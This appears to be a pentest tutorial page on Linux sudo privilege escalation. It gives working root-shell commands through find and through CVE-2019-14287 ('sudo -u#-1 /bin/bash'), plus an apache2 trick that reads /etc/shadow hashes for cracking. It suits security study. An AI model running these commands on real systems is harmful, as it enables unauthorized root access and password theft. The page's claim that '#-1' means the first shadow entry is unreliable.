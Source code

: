 # Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**`sudo -l`** >>> see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## <mark style="color:red;">CVE-2019-14287</mark>

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u #$((0xffffffff))" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification` `root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### <mark style="color:orange;">Exploit</mark>

**`sudo -u#-1 /bin/bash`** → #-1 means the the first entry of the /etc/shadow file (root) so we can specify any user ID with a + like: #+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash` `root@kali:/home/hacker# id`&#x20;

#### `uid=0(root) gid=1000(hacker) groups=1000(hacker)`&#x20;

#### `root@kali:/home/hacker#`

#### <mark style="color:green;">Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :</mark>

#### `python3 sudo_exploit.py`

